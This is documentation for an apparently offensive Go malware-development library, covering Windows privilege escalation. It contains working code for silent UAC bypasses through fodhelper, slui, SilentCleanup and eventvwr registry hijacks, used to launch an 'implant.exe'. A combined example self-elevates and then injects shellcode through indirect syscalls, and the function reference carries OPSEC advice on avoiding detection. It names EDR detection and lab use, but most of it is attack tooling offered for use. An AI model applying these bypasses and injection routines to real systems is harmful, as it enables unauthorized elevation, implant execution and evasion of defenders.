


# Privilege Escalation

[<- Back to Tokens Overview](README.md)

**MITRE ATT&CK:** [T1548.002 - Abuse Elevation Control Mechanism: Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002/)
**D3FEND:** [D3-UAP - User Account Profiling](https://d3fend.mitre.org/technique/d3f:UserAccountProfiling/)

---

## TL;DR

You're an admin account but your process runs at Medium IL
(default user-mode posture; UAC didn't elevate you). To run as
High IL without showing a UAC prompt, hijack one of Windows's
**auto-elevating** binaries (fodhelper, sdclt, eventvwr, etc.).

| You want to… | Use | Cost |
|---|---|---|
| Bypass UAC via fodhelper registry hijack | [`FodhelperBypass`](#fodhelperbypass) | One registry write (HKCU) — fodhelper auto-elevates and reads back the value |
| Discover other auto-elevate hijack candidates programmatically | [`recon/dllhijack.ScanAutoElevate`](../recon/dll-hijack.md) | Cross-references autoElevate manifest + writable search paths |

What this DOES achieve:

- High IL (admin's full token) without UAC consent dialog —
  the auto-elevating binary runs your payload as part of its
  normal flow.
- HKCU write only — no admin needed BEFORE the bypass; you
  use HKCU to redirect HKCR lookups that fodhelper makes.
- Reverses cleanly — delete the registry key after the bypass
  fires.

What this does NOT achieve:

- **Doesn't work on Always-Notify UAC** — when UAC slider is
  at the top, even auto-elevate binaries prompt. Default
  setting is one notch lower; bypass works there.
- **Detected by mature EDR** — Microsoft Defender catches
  fodhelper UAC bypass since 2019; CrowdStrike / SentinelOne
  same. Use as a stepping stone in lab work, not as primary
  privesc on hardened hosts.
- **Already-admin token required** — bypasses elevate
  Medium-IL admin to High-IL admin. They do NOT escalate
  standard user → admin. For that, see kernel exploits
  (e.g., [`privesc/cve202430088`](../privesc/cve202430088.md)).
- **Microsoft patches these** — every documented bypass has a
  finite shelf life. fodhelper, sdclt, eventvwr have all
  been patched at least once each. Check current Windows
  build before relying.

---

## Primer

Even if you have an administrator account on Windows, your processes run with limited privileges by default. User Account Control (UAC) prevents automatic elevation -- you need to explicitly "Run as administrator" for each program.

**Convincing the system you are the boss so you can access everything.** Privilege escalation bypasses UAC by exploiting auto-elevating Windows programs (like `fodhelper.exe`) that run as high-integrity without prompting. You hijack their behavior to execute your code with elevated privileges.

---

## How It Works

### Escalation Methods



### UAC Bypass Mechanism (FODHelper Example)



---

## Usage

### ExecAs: Run a Process as Another User

```go
import (
    "context"
    "github.com/oioio-space/maldev/win/privilege"
)

// Run cmd.exe as another user (returns exec.Cmd for lifetime management)
cmd, err := privilege.ExecAs(
    context.Background(),
    false,           // not domain-joined
    ".",             // local machine
    "admin",         // username
    "Password123!",  // password
    "cmd.exe",       // program
    "/C", "whoami",  // arguments
)
if err != nil {
    log.Fatal(err)
}

// IMPORTANT: Wait to avoid leaking the child process handle
cmd.Wait()
```

### CreateProcessWithLogon

```go
import "github.com/oioio-space/maldev/win/privilege"

err := privilege.CreateProcessWithLogon(
    "CORP",          // domain
    "admin",         // username
    "Password123!",  // password
    `C:\`,           // working directory
    "cmd.exe",       // program
    "/C", "whoami",  // arguments
)
```

### ShellExecuteRunAs (UAC Prompt)

```go
import "github.com/oioio-space/maldev/win/privilege"

// Prompts a UAC dialog for elevation
err := privilege.ShellExecuteRunAs(
    `C:\Windows\System32\cmd.exe`,
    `C:\`,
    "/C", "whoami /priv",
)
```

### UAC Bypass: FODHelper

```go
import "github.com/oioio-space/maldev/privesc/uac"

// Silently elevate via fodhelper.exe (Win10+, no UAC prompt)
err := uac.FODHelper(`C:\implant.exe`)
```

### UAC Bypass: SilentCleanup

```go
// Silently elevate via SilentCleanup scheduled task
err := uac.SilentCleanup(`C:\implant.exe`)
```

### UAC Bypass: EventVwr

```go
// Silently elevate via eventvwr.exe mscfile handler
err := uac.EventVwr(`C:\implant.exe`)
```

### UAC Bypass: EventVwr with Alternate Credentials

```go
// Elevate via eventvwr.exe using another user's credentials
err := uac.EventVwrLogon("CORP", "admin", "Password123!", `C:\implant.exe`)
```

### Check Current Privileges

```go
import "github.com/oioio-space/maldev/win/privilege"

admin, elevated, err := privilege.IsAdmin()
fmt.Printf("Admin group: %v, Elevated: %v\n", admin, elevated)

isMember, _ := privilege.IsAdminGroupMember()
fmt.Printf("Admin group member: %v\n", isMember)
```

---

## Combined Example: Escalate + Inject

```go
package main

import (
    "fmt"
    "log"
    "os"

    "github.com/oioio-space/maldev/inject"
    "github.com/oioio-space/maldev/privesc/uac"
    "github.com/oioio-space/maldev/win/privilege"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

func main() {
    // Check if already elevated
    _, elevated, _ := privilege.IsAdmin()
    if !elevated {
        // Self-elevate via FODHelper UAC bypass
        exePath, _ := os.Executable()
        if err := uac.FODHelper(exePath); err != nil {
            fmt.Println("UAC bypass failed, trying SLUI...")
            _ = uac.SLUI(exePath)
        }
        return // original process exits, elevated copy continues
    }

    // Now running elevated -- perform injection via indirect syscalls.
    inj, err := inject.NewWindowsInjector(&inject.WindowsConfig{
        Config:        inject.Config{Method: inject.MethodCreateThread},
        SyscallMethod: wsyscall.MethodIndirect,
    })
    if err != nil { log.Fatal(err) }

    shellcode := []byte{/* ... */}
    if err := inj.Inject(shellcode); err != nil { log.Fatal(err) }
}
```

---

## Advantages & Limitations

### Advantages

- **Four UAC bypass methods**: FODHelper, SLUI, SilentCleanup, EventVwr cover Win10/Win11
- **Registry cleanup**: All UAC bypass methods defer-delete their registry keys
- **Hidden windows**: All spawned processes use `SysProcAttr{HideWindow: true}`
- **ExecAs returns exec.Cmd**: Caller manages child process lifetime
- **Domain + local support**: `ExecAs` adapts logon type for domain vs. local accounts

### Limitations

- **UAC bypasses are well-known**: EDR products monitor registry keys used by these techniques
- **Admin group required**: UAC bypass only works for users already in the Administrators group
- **Credential exposure**: `ExecAs` and `CreateProcessWithLogon` require plaintext passwords
- **EventVwr timing**: 2-second sleep for eventvwr to read registry -- may fail under heavy load
- **No PPID spoofing**: Spawned processes show the real parent PID

---

## API Reference

Two packages, two layers: `win/privilege` exposes the credential-based
"run as someone" primitives that **require valid credentials**; the
five UAC bypasses live in `privesc/uac` and require **no credentials**
— they exploit auto-elevating Windows binaries to lift the calling
user's medium-IL token to high-IL silently. Full per-export coverage of
the UAC bypasses lives in [`privesc/uac.md`](../privesc/uac.md); the
entries below are navigation stubs duplicating the signature + a
single OPSEC line.

### Package `win/privilege`

#### `IsAdmin() (admin bool, elevated bool, err error)`

- godoc: reports group membership and elevation state of the current process token.
- Description: combines two checks — `admin` from `persistence/account.IsAdmin()` (SID S-1-5-32-544 group membership), and `elevated` from `windows.GetCurrentProcessToken().IsElevated()` (TokenElevation == 1). The combo distinguishes the four split-token quadrants: standard user (false, false), admin-as-standard with UAC (true, false), elevated admin (true, true), and the rare admin running with explicit consent denial.
- Parameters: none.
- Returns: `admin` group membership; `elevated` IL ≥ High; `err` always nil today (kept in the signature for forward compatibility).
- Side effects: opens / reads the current process token in-process — no syscall trace.
- OPSEC: silent.
- Required privileges: none.
- Platform: Windows.

#### `IsAdminGroupMember() (bool, error)`

- godoc: returns whether the current user is a member of `BUILTIN\Administrators` (S-1-5-32-544).
- Description: thin path via `os/user.Current().GroupIds()` searching for `"S-1-5-32-544"`. Distinct from `IsAdmin` because it answers the user-level question (membership) rather than the process-level question (elevation). A standard user who is in the admin group will return `true` here while `IsAdmin()` returns `(true, false)`.
- Parameters: none.
- Returns: `true` if the SID is present; underlying error from `user.Current` or `GroupIds`.
- Side effects: LSA RPC for the group enumeration.
- OPSEC: silent.
- Required privileges: none.
- Platform: Windows.

#### `ExecAs(ctx context.Context, isInDomain bool, domain, username, password, path string, args ...string) (*exec.Cmd, error)`

- godoc: spawn `path args...` under alternate credentials via `LogonUserW` + `SysProcAttr.Token`.
- Description: chooses `LOGON32_LOGON_NEW_CREDENTIALS` (type 9 — outbound, DC-less) for domain accounts and `LOGON32_LOGON_INTERACTIVE` (type 2 — local) for local accounts. Wraps the resulting handle in a `token.Token` (Primary type), enables every available privilege on it, then `exec.CommandContext(ctx, path, args...)` with the token attached via `syscall.SysProcAttr{Token: ...}`. Window is hidden. Returns the started `*exec.Cmd` — caller must `Wait` and the GC keeps the token alive until then.
- Parameters: `ctx` for cancellation; `isInDomain == false` forces `domain` to `"."` (local SAM); `username`/`password` cleartext; `path` + `args` the target binary.
- Returns: started `*exec.Cmd`; first error from `LogonUserW`, `EnableAllPrivileges`, or `cmd.Start`. Token is closed on the failure paths.
- Side effects: 4624 logon event (type 9 for domain, type 2 for local); spawns a child process under the new identity.
- OPSEC: type-9 logons are quieter than type-2 — prefer the domain path when the target account is in a domain. The privilege-enable batch on the new token can produce Audit-Privilege-Use noise.
- Required privileges: unprivileged for valid credentials; the resulting child runs with the *new* user's IL (no automatic elevation).
- Platform: Windows.

#### `CreateProcessWithLogon(domain, username, password, wd, path string, args ...string) error`

- godoc: lower-level `CreateProcessWithLogonW` wrapper using `LOGON_WITH_PROFILE`.
- Description: constructs UTF-16 pointers for every string arg, builds a hidden-window `StartupInfo`, and calls `advapi32!CreateProcessWithLogonW` directly via `api.ProcCreateProcessWithLogonW.Call`. `runtime.KeepAlive` pins every UTF-16 buffer through the call. On success the process + thread handles returned in `ProcessInformation` are closed via `defer` (the spawned process keeps running). Use when you want the standard "RunAs"-style bookkeeping (profile load, cred handling) instead of `ExecAs`'s manual `LogonUserW + token attach`.
- Parameters: cleartext credentials; `wd` working directory (must be non-empty UTF-16-able); `path` + `args` the target.
- Returns: `*os.SyscallError("CreateProcessWithLogonW", lastErr)` on non-zero failure; nil on success. No `*exec.Cmd` — fire-and-forget.
- Side effects: spawns a hidden process; no `*exec.Cmd` means the caller cannot Wait or capture stdio. 4624 logon event (type 2).
- OPSEC: `CreateProcessWithLogonW` is monitored heavily — `seclogon` service handles the logon and EDRs hook there.
- Required privileges: unprivileged for valid credentials.
- Platform: Windows.

#### `ShellExecuteRunAs(path, wd string, args ...string) error`

- godoc: launch `path` elevated via the `runas` ShellExecute verb — pops a UAC consent dialog if the caller is not already elevated.
- Description: builds UTF-16 pointers and calls `windows.ShellExecute(nil, "runas", path, args, wd, SW_HIDE)`. **Interactive** — surfaces the standard UAC prompt to the user. Use as the visible fallback when the silent UAC bypasses (`privesc/uac`) are unavailable or untrustworthy.
- Parameters: `path` executable; `wd` working directory; `args` joined with spaces (single string concatenation — beware embedded spaces in args).
- Returns: error from `windows.ShellExecute` (e.g. `ERROR_CANCELLED 1223` if the user clicks No).
- Side effects: pops a visible UAC consent dialog. The hidden-window flag `SW_HIDE` applies to the child window, **not** the consent prompt.
- OPSEC: the UAC prompt itself is the loudest possible signal — the user sees the consent dialog. Use only when interactive consent is acceptable (e.g., red-team awareness exercises).
- Required privileges: none to call; the launched process becomes high-IL only after user consent.
- Platform: Windows.

### Package `privesc/uac`

> Each entry below is a navigation stub — the canonical fielded
> coverage (Windows-build windows, registry keys, fallback chain,
> cleanup behaviour) is in [`privesc/uac.md`](../privesc/uac.md).

#### `FODHelper(path string) error`

- godoc: registry-hijack UAC bypass via `fodhelper.exe` auto-elevation (HKCU `ms-settings\Shell\Open\command`).
- Description: see [`privesc/uac.md` § FODHelper](../privesc/uac.md#fodhelper). Elevates `path` to high-IL silently; the `DelegateExecute` empty value is the trick that makes `fodhelper` consume the user-writable HKCU key instead of the protected HKCR.
- Parameters: `path` the binary to elevate (any executable the caller can read).
- Returns: nil on success; error from registry write or process spawn.
- Side effects: writes two HKCU registry keys, spawns `fodhelper.exe` (which spawns `path` elevated), then deletes the registry keys.
- OPSEC: HKCU writes to `ms-settings\Shell\Open\command` are a high-fidelity Sigma rule. fodhelper.exe spawning a non-canonical child is the second tell.
- Required privileges: medium-IL admin (split-token); fails for non-admin users.
- Platform: Windows. See uac.md for build-window table.

#### `SLUI(path string) error`

- godoc: registry-hijack UAC bypass via `slui.exe` auto-elevation (HKCU `exefile\shell\open\command`).
- Description: see [`privesc/uac.md` § SLUI](../privesc/uac.md#slui). Same shape as FODHelper but hooks the global `exefile` ProgID — louder because it briefly affects every `.exe` invocation in the user's session.
- Parameters: `path` the binary to elevate.
- Returns: nil on success; error from registry write or process spawn.
- Side effects: writes/deletes HKCU `Software\Classes\exefile\shell\open\command`; spawns `slui.exe`.
- OPSEC: hijacking `exefile` ProgID in HKCU is unmistakable telemetry. Brittle — leaves a small window where any `.exe` launch in the session would route through the hijack.
- Required privileges: medium-IL admin.
- Platform: Windows.

#### `SilentCleanup(path string) error`

- godoc: scheduled-task UAC bypass via the auto-elevating `\Microsoft\Windows\DiskCleanup\SilentCleanup` task and its `%windir%` env-var expansion.
- Description: see [`privesc/uac.md` § SilentCleanup](../privesc/uac.md#silentcleanup). Sets HKCU `Environment\windir` to a payload command, then triggers the task — `cleanmgr.exe` consumes the per-user env var even though it runs elevated.
- Parameters: `path` the binary to elevate.
- Returns: nil on success; registry/task error.
- Side effects: writes/deletes HKCU `Environment\windir`; triggers a scheduled-task run.
- OPSEC: HKCU `Environment\windir` overrides are anomalous — security baselines flag any non-default windir value.
- Required privileges: medium-IL admin.
- Platform: Windows.

#### `EventVwr(path string) error`

- godoc: registry-hijack UAC bypass via `eventvwr.exe`'s `mscfile` HKCU lookup.
- Description: see [`privesc/uac.md` § EventVwr](../privesc/uac.md#eventvwr). The classic — patched in Win10 1809+ but still works on older builds. EventViewer queries HKCU before HKLM for the `mscfile` ProgID; planting a `command` subkey there hijacks its elevated launch.
- Parameters: `path` the binary to elevate.
- Returns: nil on success; registry/process error.
- Side effects: writes/deletes HKCU `Software\Classes\mscfile\shell\open\command`; spawns `eventvwr.exe`.
- OPSEC: `mscfile\shell\open\command` HKCU writes are flagged by virtually every EDR shipped after 2017.
- Required privileges: medium-IL admin.
- Platform: Windows ≤ 10 1803. Patched on later builds.

#### `EventVwrLogon(domain, user, password, path string) error`

- godoc: same as `EventVwr` but the registry write happens inside an impersonation of `domain\user` first.
- Description: see [`privesc/uac.md` § EventVwrLogon](../privesc/uac.md#eventvwrlogon). Use when the bypass should target a different user's HKCU (the impersonated one), not the caller's. Combines `LogonUserW` (type 2) + thread impersonation + the `EventVwr` registry-hijack chain.
- Parameters: `domain`/`user`/`password` cleartext; `path` the binary to elevate.
- Returns: nil on success; first error from logon, impersonation, or the underlying `EventVwr`.
- Side effects: 4624 logon event (type 2) under the impersonated user; HKCU writes under the **impersonated user's** hive (not the caller's).
- OPSEC: dual-target footprint — both the impersonated logon and the registry hijack are observable, on potentially different telemetry pipelines.
- Required privileges: medium-IL admin + valid credentials for the target user.
- Platform: Windows ≤ 10 1803.

## See also

- [Tokens area README](README.md)
- [`tokens/token-theft.md`](token-theft.md) — capture an admin token first, then enable privileges on the duplicated handle
- [`privesc` techniques (index)](../privesc/README.md) — full UAC bypass + kernel exploit alternatives
